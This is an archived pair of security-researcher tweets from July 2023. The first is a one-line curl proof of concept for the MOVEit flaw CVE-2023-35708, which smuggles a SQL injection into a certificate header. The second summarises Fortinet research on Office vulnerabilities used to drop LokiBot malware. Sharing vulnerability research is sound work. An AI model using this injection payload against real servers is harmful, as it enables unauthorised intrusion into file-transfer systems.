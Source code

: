 
# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1679969146635710469 _at 2023-07-14, 21:40:31_**
<blockquote>
curl PoC for MOVEit CVE-2023-35708: time curl -kv https://192.168.56.103/machine.aspx -H "X-IPSGW-ClientCert: $(openssl req -x509 -noenc -keyout /dev/null -subj "/CN=';SELECT SLEEP(10);--" -outform DER | base64 -w 0)"
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---

# virusbtn
**https://twitter.com/virusbtn/status/1679806947221032961 _at 2023-07-14, 10:56:00_**
<blockquote>
Fortinet researchers show how the CVE-2021-40444 &amp; CVE-2022-30190 remote code execution vulnerabilities allowed attackers to embed malicious macros within Microsoft documents that, when executed, dropped the LokiBot malware onto the victim's system. https://t.co/dlkaVpYfE4 https://t.co/IfsIdPWSLg
</blockquote>

* https://www.fortinet.com/blog/threat-research/lokibot-targets-microsoft-office-document-using-vulnerabilities-and-macros

<table><tr>
<td><img src="pictures/8dace8cf5668643a1aafbb939cbd86fb42d1ad4708c8a41737e6eb5015f6757b.jpg" alt="8dace8cf5668643a1aafbb939cbd86fb42d1ad4708c8a41737e6eb5015f6757b.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---